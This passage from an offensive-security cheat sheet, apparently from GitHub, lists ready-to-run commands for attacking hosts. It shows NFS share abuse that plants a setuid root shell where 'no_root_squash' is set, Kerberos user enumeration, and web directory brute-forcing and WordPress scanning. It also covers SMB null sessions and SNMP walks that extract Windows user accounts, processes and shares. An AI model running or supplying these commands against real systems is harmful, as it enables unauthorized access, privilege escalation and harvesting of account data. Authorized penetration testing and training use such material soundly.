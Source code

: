 ### NFS Exported Shares

List NFS exported shares. If 'rw,no\_root\_squash' is present, upload and execute [sid-shell](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c)

```bash
showmount -e 192.168.110.102
chown root:root sid-shell; chmod +s sid-shell
```

### Kerberos Enumeration

```bash
# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```

### HTTP Brute-Force & Vulnerability Scanning

```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

### RPC / NetBios / SMB

```bash
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

### SNMP

```bash
# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

# brute-force community strings
```